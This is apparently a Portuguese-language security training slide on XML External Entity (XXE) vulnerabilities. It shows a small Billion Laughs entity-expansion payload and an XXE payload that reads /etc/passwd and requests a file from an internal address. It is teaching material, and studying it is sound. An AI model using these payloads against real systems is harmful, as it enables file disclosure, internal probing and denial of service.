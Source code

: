 <style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent; 
  -moz-text-fill-color: transparent;
}
</style>

---

# XXE

<div grid="~ cols-2 gap-4">
<div>
Muitos processadores de XML mais antigos ou mal configurados avaliam referências a entidades externas dentro dos documentos XML. Estas entidades externas podem ser usadas para revelar ficheiros internos usando o processador de URI de ficheiros, partilhas internas de ficheiros, pesquisa de portas de comunicação internas, execução de código remoto e ataques de negação de serviço, tal como o ataque Billion Laughs.

<v-click>

### Billions Laught attack
```xml {4-7|10|all}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<foo>
  Hello &t3;
</foo>
```
</v-click>

</div>

<div>

<v-click>

### SSRF
```xml {4,5,10|6,7,11|all}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
  <!ENTITY internaladdrs SYSTEM
  "http://192.168.0.1/secret.txt">
]>
<foo>
  &xxe;
  &internaladdrs;
</foo>
```
</v-click>
</div>
